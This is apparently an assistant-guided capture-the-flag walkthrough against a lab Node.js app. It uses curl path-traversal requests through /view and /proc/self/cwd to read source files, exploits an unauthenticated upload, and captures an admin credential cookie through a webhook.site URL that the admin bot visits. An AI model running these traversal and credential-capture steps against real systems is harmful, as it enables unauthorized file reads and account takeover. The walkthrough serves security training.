Set-Cookie: connect.sid=s%3ALAwFEuMxp6d5FTkiCR6NNlo5mOjv3zcB.rP9nb9Kv%2FVtO1whqFtNB8n7%2B6WWIMMrBPRGW3%2FMST10; Path=/; HttpOnly

File path is required
```

### **Task 2: Step 26 - Identify the file path parameter**

✅&#x20;File viewer confirmed

The response is:

```
HTTP/1.1 400 Bad Request

File path is required
```

This tells us `/view` expects a file path supplied by the client.

That's particularly relevant to the challenge's description of bypassing file-access restrictions.

Before testing anything else, let's identify the expected parameter name.

### **Your next action**

Run:

```bash
curl -i -sS 'http://10.42.187.117/view?path=probe.txt'
```

We're providing a deliberately nonexistent filename.

**Possible outcomes:**

- `400 File path is required`: The parameter probably isn't named `path`.
- `404 File not found`: The parameter was recognized, but the file doesn't exist.
- `403 Forbidden`: The parameter was recognized, but access is restricted.
- Another response: We'll inspect it.


**Command Output:**

```bash
curl -i -sS 'http://10.42.187.117/view?path=probe.txt'

HTTP/1.1 404 Not Found
Server: nginx/1.22.1
Date: Tue, 24 Nov 2026 19:51:23 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 14
Connection: keep-alive
X-Powered-By: Express
ETag: W/"e-oi6cO2qfXHDeT3akZIEOy6H7l8M"
Set-Cookie: connect.sid=s%3AVbG4flXg5Ki4dB8wPwvkmzkb2ufHiuqy.z6vnrCFBCdJxzmfajqHKL69WrpxKzY1RR2sXcDsWg14; Path=/; HttpOnly

File not found
```

&#x20;Parameter identified: `path`

Excellent. The response changed from:

```
File path is required
```

to:

```
File not found
```

This confirms that `/view` accepts a `path` query parameter and attempts to locate the requested file.

### **Task 2: Step 27 - Test for path traversal**

Now let's investigate whether the application restricts file access to its intended directory.

A common mistake in Node.js applications is constructing file paths directly from user input:

```
path.join(uploadDirectory, req.query.path)
```

Without proper validation, a value beginning with `../` could escape the intended directory.

We'll test this using `package.json`, a standard Node.js project metadata file.

### **Your next action**

Run:

```bash
curl -i -sS 'http://10.42.187.117/view?path=../package.json'
```

**Why&#x20;**`../package.json`**?**

- `../` means move to the parent directory.
- `package.json` normally exists in a Node.js application's project directory.
- If the file viewer is rooted in an `uploads` directory, this path may reach the application's project root.

**Possible outcomes:**

- `200 OK` with JSON: Path traversal is confirmed.
- `403 Forbidden`: The application may be rejecting traversal.
- `404 File not found`: Either the file isn't at that location or the traversal was prevented.


**Command Output:**

```bash
curl -i -sS 'http://10.42.187.117/view?path=../package.json'

HTTP/1.1 404 Not Found
Server: nginx/1.22.1
Date: Tue, 24 Nov 2026 19:59:04 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 14
Connection: keep-alive
X-Powered-By: Express
ETag: W/"e-oi6cO2qfXHDeT3akZIEOy6H7l8M"
Set-Cookie: connect.sid=s%3AN_1R-SOVkKHM9yFU4MF2zhUOtaF2Oimn.OCyzVms0ywkJ0Gwey3illlV%2FRVC0zoB8ixLz%2Biiu2y4; Path=/; HttpOnly

File not found
```

### **Task 2: Step 28 - Distinguish a missing file from blocked traversal**

The response is still:

```
HTTP/1.1 404 Not Found

File not found
```

This is inconclusive. Two explanations remain:

1. The application prevented the directory traversal.
2. The traversal worked, but `package.json` isn't at the location we requested.

Let's test with a file that normally exists in Linux containers: `/etc/hostname`.

### **Action**

Run:

```bash
curl -i -sS 'http://10.42.187.117/view?path=../../../../../../etc/hostname'
```

**Why this test?**

The repeated `../` segments attempt to move upward through the filesystem until reaching its root.

Then we request:

```
/etc/hostname
```

This file contains the machine's hostname, so it provides a simple way to test file-read access without requesting credentials or application secrets.

**Possible outcomes:**

- `200 OK` with a hostname: Directory traversal is confirmed.
- `403 Forbidden`: The application explicitly restricts the path.
- `404 File not found`: Traversal may be blocked, or the viewer may resolve paths differently than expected.


**Command Output:**

```bash
curl -i -sS 'http://10.42.187.117/view?path=../../../../../../etc/hostname'

HTTP/1.1 200 OK
Server: nginx/1.22.1
Date: Tue, 24 Nov 2026 20:02:52 GMT
Content-Type: application/octet-stream
Content-Length: 1
Connection: keep-alive
X-Powered-By: Express
Accept-Ranges: bytes
Cache-Control: public, max-age=0
Last-Modified: Tue, 24 Nov 2026 16:44:04 GMT
ETag: W/"1-1a20e716f42"
Set-Cookie: connect.sid=s%3AZ7BwODiEMZ7onLVottD32Vspe6fTNoaP.lH9i0FX3RqNZLp3HP4z44xnaMUvtE3Fw8mM2f6k6q94; Path=/; HttpOnly


```

🎉&#x20;Path traversal confirmed!

This is our first confirmed vulnerability in Task 2.

The server returned:

```
HTTP/1.1 200 OK
Content-Type: application/octet-stream
Content-Length: 1
```

That is a significant change from the previous `404 File not found`.

The `/view` endpoint successfully resolved a path outside its intended directory. The one-byte response is unusual, but the successful file response strongly supports that traversal is possible.

### **Task 2: Step 29 - Locate the application's source code**

Now we can investigate the application's implementation instead of guessing routes and authentication behavior.

Linux exposes a process's working directory through:

```
/proc/self/cwd
```

If the Express application was launched from its project directory, we may be able to read its `package.json` without knowing its installation path.

### **Action**

Run:

```bash
curl -i -sS 'http://10.42.187.117/view?path=../../../../../../proc/self/cwd/package.json'
```

**Why this is useful:**

`package.json` can tell us:

- The application's entry point, such as `app.js` or `server.js`.
- Its framework dependencies.
- Available application scripts.
- How the project is structured.

We're using the confirmed path traversal to inspect project metadata.


**Command Output:**

```json
curl -i -sS 'http://10.42.187.117/view?path=../../../../../../proc/self/cwd/package.json'

HTTP/1.1 200 OK
Server: nginx/1.22.1
Date: Tue, 24 Nov 2026 20:06:04 GMT
Content-Type: application/json; charset=UTF-8
Content-Length: 485
Connection: keep-alive
X-Powered-By: Express
Accept-Ranges: bytes
Cache-Control: public, max-age=0
Last-Modified: Sat, 04 Jan 2025 22:14:40 GMT
ETag: W/"1e5-19433627c80"
Set-Cookie: connect.sid=s%3ApntmTaviN8-mJOPjeLaV44nIxGKwykiD.H%2BjtuFT5dtIDJp0nLKgmsp75ZSnA%2FVyP%2BFwdpZOE6Y8; Path=/; HttpOnly

{
  "name": "chall",
  "version": "1.0.0",
  "description": "",
  "main": "app.js",
  "scripts": {
    "start": "node app.js",
    "test": "echo \"Error: no test specified\" && exit 1"
  },
  "keywords": [],
  "author": "",
  "license": "ISC",
  "dependencies": {
    "express": "^4.17.1",
    "express-session": "^1.17.2",
    "body-parser": "^1.19.0",
    "multer": "^1.4.2",
    "ejs": "^3.1.6",
    "sequelize": "^6.3.5",
    "sqlite3": "^5.0.2",
    "puppeteer": "^13.0.1"
  }
}
```


🎉&#x20;Application source located!

The traversal worked, and we've recovered the application's `package.json`.

The key discovery is:

```json
"main": "app.js",
"scripts": {
  "start": "node app.js"
}
```

The dependencies also explain much of what we've observed:

| Dependency             | Likely purpose        |
| ---------------------- | --------------------- |
| `express`              | HTTP routing          |
| `express-session`      | Login sessions        |
| `multer`               | File uploads          |
| `ejs`                  | HTML templates        |
| `sequelize`, `sqlite3` | User/database storage |
| `puppeteer`            | Automated admin bot   |

We now know the application entry point is `app.js`.

### **Task 2: Step 30 - Read the server implementation**

**Run this single command:**

```bash
curl -sS 'http://10.42.187.117/view?path=../../../../../../proc/self/cwd/app.js'
```

This uses the confirmed traversal vulnerability to retrieve the application's JavaScript source.

The source should reveal how:

- `/login` authenticates users.
- `/upload` checks permissions.
- `/view` resolves paths.
- `/secret` restricts access.
- `/report` launches the admin bot.


**Command Output:**

```javascript
curl -sS 'http://10.42.187.117/view?path=../../../../../../proc/self/cwd/app.js'

const express = require('express');
const session = require('express-session');
const bodyParser = require('body-parser');
const multer = require('multer');
const path = require('path');
const fs = require('fs');
const { User } = require('./database');

const app = express();
const PORT = 3000;

const crawl = require("./crawler");


app.use(bodyParser.urlencoded({ extended: true }));
app.use(session({
    secret: 'secret-key',
    resave: false,
    saveUninitialized: true
}));
app.set('view engine', 'ejs');
app.use(express.static(path.join(__dirname, 'public')));

const storage = multer.diskStorage({
    destination: 'public/uploads/',
    filename: function (req, file, cb) {
        const originalName = file.originalname;
        const extension = path.extname(originalName);
        const baseName = path.basename(originalName, extension);
        const appendedName = `${baseName}.html`;
        cb(null, appendedName);
    }
});

const upload = multer({ storage: storage });

app.get('/', (req, res) => {
    res.redirect('/login');
});

app.get('/login', (req, res) => {
    res.render('login');
});

app.post('/login', async (req, res) => {
    const { username, password } = req.body;
    const user = await User.findOne({ where: { username, password } });

    if (user) {
        req.session.user = { username: user.username, role: user.role };
        res.redirect('/dashboard');
    } else {
        res.send('Invalid username or password');
    }
});

app.get('/dashboard', (req, res) => {
    if (!req.session.user) {
        return res.redirect('/login');
    }

    const files = fs.readdirSync('public/uploads');

    if (req.session.user.role === 'admin') {
        res.render('admin', { username: req.session.user.username, files });
    } else {
        res.render('user', { username: req.session.user.username, files });
    }
});

app.post('/upload', upload.single('file'), (req, res) => {
    if (!req.session.user) {
        return res.redirect('/login');
    }

    res.send('File uploaded successfully');
});

app.get('/uploads/:filename', (req, res) => {
    const filePath = path.join(__dirname, 'public/uploads', req.params.filename);
    res.sendFile(filePath);
});

app.get('/view', (req, res) => {
    if (!req.query.path) {
        return res.status(400).send('File path is required');
    }

    const filePath = path.join(__dirname, 'public/uploads', req.query.path);

    fs.access(filePath, fs.constants.F_OK, (err) => {
        if (err) {
            return res.status(404).send('File not found');
        }

        // Send the file
        res.sendFile(filePath);
    });
});

app.get('/secret', (req, res) => {
    if (!req.session.user || req.session.user.role !== 'admin') {
        return res.status(403).send('Forbidden');
    }

    const Flag = process.env.FLAG;
    res.render('secret', { Flag });
});


const isValidURL = (url) => {
    try {
      new URL(url);
      return true;
    } catch {
      return false;
    }
  };

app.get("/report", (req, res) => {
    return res.status(200).render("report");
  });

  app.post("/report", async (req, res) => {
    const { url } = req.body;

    if (!url || !isValidURL(url)) {
      return res.status(400).send("Invalid URL provided.");
    }

    try {
      console.log(`[+] Crawling URL: ${url}`);
      await crawl(url);
      res.send("An admin will review the provided URL.");
    } catch (error) {
      console.error("[-] Error during URL processing:", error.message);
      res.status(500).send("An error occurred while processing your request.");
    }
  });


app.listen(PORT, () => {
    console.log(`Server is running on http://localhost:${PORT}`);
});

```

🎉&#x20;Critical upload vulnerability identified!

We found it. **We can upload an HTML file without logging in.**

Gempa at the `/upload` handler:

```js
app.post('/upload', upload.single('file'), (req, res) => {
    if (!req.session.user) {
        return res.redirect('/login');
    }

    res.send('File uploaded successfully');
});
```

The problem is the execution order:

1. `upload.single('file')` processes and saves the uploaded file.
2. Only afterward does the application check `req.session.user`.
3. If we're unauthenticated, it redirects us to `/login`, **but the file has already been saved**.

That's why we kept seeing `302` responses. We interpreted them as a blocked upload, when the application was actually checking authentication too late.

The source also confirms that files are saved in `public/uploads/` and renamed with an `.html` extension.

### **Task 2: Step 31 - Test unauthenticated file upload**

Let's upload a harmless HTML file to verify the vulnerability.

**Run this single command in Kali:**

```bash
curl -i -sS -F 'file=@-;filename=task2-probe-0a753172.txt;type=text/html' http://10.42.187.117/upload <<< '<h1>Task 2 upload probe</h1>'
```

This command:

- Sends a multipart file upload using the correct field name, `file`.
- Supplies a simple HTML heading as the file content.
- Uses standard input, so no local file needs to be created.
- Causes the application to name the uploaded file `task2-probe-0a753172.html`.

**Expected response:** Probably another `302` redirect to `/login`.

That's fine. What matters is whether the upload middleware saved our file before redirecting.


**Command Output:**

```bash
curl -i -sS -F 'file=@-;filename=task2-probe-0a753172.txt;type=text/html' http://10.42.187.117/upload <<< '<h1>Task 2 upload probe</h1>'

HTTP/1.1 302 Found
Server: nginx/1.22.1
Date: Tue, 24 Nov 2026 20:15:13 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 28
Connection: keep-alive
X-Powered-By: Express
Location: /login
Vary: Accept
Set-Cookie: connect.sid=s%3A6eDRjE0ji8EIKcSqjCXH5vlXxKI57K72.xax6M0Cr7KdUO%2B8RTlOGSo2nKXR1vX3IhLtKsrTR8GM; Path=/; HttpOnly

Found. Redirecting to /login
```

### **Task 2: Step 32 - Verify that the file was saved**

The `302` response is exactly what we expected:

```
HTTP/1.1 302 Found
Location: /login
```

However, the source code tells us that Multer processes the file before this redirect occurs.

Now let's verify that the uploaded file is actually accessible.

**Run this single command:**

```bash
curl -i -sS http://10.42.187.117/uploads/task2-probe-0a753172.html
```

**Expected result:**

```
HTTP/1.1 200 OK
```

With the response body:

```
<h1>Task 2 upload probe</h1>
```

If that works, we'll have confirmed two vulnerabilities working together:

1. **Unauthenticated file upload:** The application saves files before checking authentication.
2. **Public HTML hosting:** Uploaded HTML files are accessible under the application's origin.

That combination provides a path to stored XSS when the admin bot visits an uploaded file.


**Command Output:**

```bash
curl -i -sS http://10.42.187.117/uploads/task2-probe-0a753172.html

HTTP/1.1 200 OK
Server: nginx/1.22.1
Date: Tue, 24 Nov 2026 20:16:58 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 29
Connection: keep-alive
X-Powered-By: Express
Accept-Ranges: bytes
Cache-Control: public, max-age=0
Last-Modified: Tue, 24 Nov 2026 20:15:13 GMT
ETag: W/"1d-1a20f32bdb1"
Set-Cookie: connect.sid=s%3AxRs9IqDJJ3Y3gaRt-tXdeP3iVHkdf_Y0.FPMqPQdpYgAcONZELCXBFRuyz2Pc7PN%2BFV8MAzSEQUU; Path=/; HttpOnly

<h1>Task 2 upload probe</h1>
```

✅&#x20;Unauthenticated HTML upload confirmed!

We now have a working route to stored XSS.

The server returned:

```
HTTP/1.1 200 OK
Content-Type: text/html
```

And served the exact HTML we uploaded.

The vulnerability chain is now clear:

1. An unauthenticated user uploads an HTML file.
2. Multer saves the file before the authorization check.
3. The file is publicly accessible under `/uploads/`.
4. The admin bot can be asked to visit the uploaded HTML.

There's one important detail left: we need to understand **how the crawler establishes its admin session**.

### **Task 2: Step 33 - Inspect the admin bot**

The application's source contains:

```
const crawl = require("./crawler");
```

Let's read that module through the confirmed file-read vulnerability.

**Run this command:**

```bash
curl -sS 'http://10.42.187.117/view?path=../../../../../../proc/self/cwd/crawler.js'
```

We're looking for how Puppeteer:

- Logs in as the administrator.
- Establishes its session.
- Navigates to submitted URLs.
- Handles the browser after visiting a page.


**Command Output:**

```javascript
curl -sS 'http://10.42.187.117/view?path=../../../../../../proc/self/cwd/crawler.js'

const puppeteer = require('puppeteer');

const creds = process.env.creds;

const crawl = async (target) => {
  console.log("[+] Starting the crawl process...");

  let browser;
  try {
    browser = await puppeteer.launch({
      headless: true,
      args: [
        "--disable-gpu",
        "--no-sandbox",
        "--disable-setuid-sandbox",
        "--js-flags=--noexpose_wasm,--jitless",
      ],
    });

    const page = await browser.newPage();

    console.log(`[+] Navigating to ${target}`);
    await page.setCookie({
      name: "token",
      value: creds,
      domain: new URL(target).hostname,
      path: "/",
    });

    const response = await page.goto(target, {
      waitUntil: "networkidle2",
      timeout: 10000, // 10-second timeout
    });

    console.log(`[+] Response status: ${response.status()}`);
    await new Promise((resolve) => setTimeout(resolve, 1000)); // Simulate a delay
  } catch (error) {
    console.error("[-] Error during crawling:", error.message);
  } finally {
    if (browser) {
      try {
        await browser.close();
        console.log("[+] Browser closed successfully.");
      } catch (closeError) {
        console.error("[-] Error while closing the browser:", closeError.message);
      }
    }
  }
};

module.exports = crawl;
```

🎉🎈🥳&#x20;Critical credential leak discovered!

This is a major breakthrough. The crawler code reveals a much simpler way to obtain the admin credentials.

Check these lines:

```js
const creds = process.env.creds;
```

```js
await page.setCookie({
    name: "token",
    value: creds,
    domain: new URL(target).hostname,
    path: "/",
});
```

**The bot sets the credentials as a cookie for whatever hostname we submit!**

When we previously submitted:

```
https://webhook.site/0a753172-1f95-4be4-9391-2a5d668781f3?task2=probe
```

The bot would have created this cookie:

```
Domain: webhook.site
Name: token
Value: <admin credentials>
```

It then visited Webhook.site, potentially sending that cookie automatically in the HTTP request.

**We may have already captured the credentials without realizing it.**

### **Task 2: Step 34 - Inspect the existing webhook request**

**Your next action:**

1. Open your Webhook.site inbox.
2. Select the GET request containing `task2=probe`.
3. Look under **Request Details & Headers**.
4. Find a header named `cookie`.

We're looking for something resembling:

```
Cookie: token=...
```

Don't look in the Query strings section this time. Cookies are transmitted as HTTP request headers.

### **Why this works**

The crawler uses the attacker-controlled URL to decide which domain receives its credential cookie.

That's a trust-boundary failure. It means an attacker can potentially receive the credential simply by submitting a URL they control.

It also explains why our `data:` URL failed: a `data:` URL has no hostname, so the bot cannot assign its cookie to that domain.


**Cookie found:**

```
cookie 	token=super_admin+reUdDiYS5A
```

🥳🎉🎈🥂🍾🎇&#x20;Admin credential token captured!

The webhook confirms that the crawler leaked:

```
token=super_admin+reUdDiYS5A
```

The `+` appears to separate the username and password:

- **Username:** `super_admin`
- **Password:** `reUdDiYS5A`

That's a hypothesis we can now verify against the login endpoint.

### **Task 2: Step 35 - Log in using the captured credentials**

Run this command:

```bash
curl -i -sS -c /tmp/task2_session.cookies --data-urlencode 'username=super_admin' --data-urlencode 'password=reUdDiYS5A' http://10.42.187.117/login
```

The `-c` option saves the server's session cookie to `/tmp/task2_session.cookies`.

This matters because Express uses `connect.sid` to maintain authentication between requests.

**Expected result:**

```
HTTP/1.1 302 Found
Location: /dashboard
```

A redirect to `/dashboard` would confirm that the credentials are valid and the login succeeded.


**Command Output:**

```bash
curl -i -sS -c /tmp/task2_session.cookies --data-urlencode 'username=super_admin' --data-urlencode 'password=reUdDiYS5A' http://10.42.187.117/login

HTTP/1.1 302 Found
Server: nginx/1.22.1
Date: Tue, 24 Nov 2026 20:31:13 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 32
Connection: keep-alive
X-Powered-By: Express
Location: /dashboard
Vary: Accept
Set-Cookie: connect.sid=s%3A1QOhs698hTvVTg0n5yYO_gPGkClfRoVp.y6Rtf%2BjMwPuAOTB6RM9BuE%2F2WLRfUwQuEO1KVbfwIig; Path=/; HttpOnly

Found. Redirecting to /dashboard
```


✅&#x20;Admin login successful!

The response confirms that the captured credentials are valid:

```
HTTP/1.1 302 Found
Location: /dashboard
```

We've authenticated as `super_admin`, and curl saved the authenticated session cookie.

### **Task 2: Step 36 - Retrieve the flag**

Remembering the `/secret` route from `app.js`:

```js
app.get('/secret', (req, res) => {
    if (!req.session.user || req.session.user.role !== 'admin') {
        return res.status(403).send('Forbidden');
    }

    const Flag = process.env.FLAG;
    res.render('secret', { Flag });
});
```

Previously, it returned `403` because we weren't authenticated.

Now let's repeat the request using the saved admin session.

**Run this command:**

```bash
curl -i -sS -b /tmp/task2_session.cookies http://10.42.187.117/secret
```

The `-b` option loads the session cookie saved during our successful login.

**Expected result:** `200 OK` with an HTML page containing the Task 2 flag.


**Command Output:**

```html
curl -i -sS -b /tmp/task2_session.cookies http://10.42.187.117/secret

HTTP/1.1 200 OK
Server: nginx/1.22.1
Date: Tue, 24 Nov 2026 20:34:11 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 399
Connection: keep-alive
X-Powered-By: Express
ETag: W/"18f-Uzfw8ke9ZNR3PC0tVJfHI6Jo8Z0"

<!DOCTYPE html>
<html>
<head>
    <title>Secret Page</title>
    <link rel="stylesheet" type="text/css" href="/css/styles.css">
</head>
<body>
    <div class="container">
        <h1>Secret Page</h1>
        <p>This page is only accessible to admin users.</p>
        <p>The flag is: ca6ab2c1989ae11c75e64f662b9f6a72</p>
        <a href="/dashboard">Back to Dashboard</a>
    </div>
</body>
</html>
```

### **Task 2 - Step 37 - Capture the flag**

```bash
echo "ca6ab2c1989ae11c75e64f662b9f6a72" > 2-flag.txt
git add .
git commit -m "2-flag.txt"
git push
```
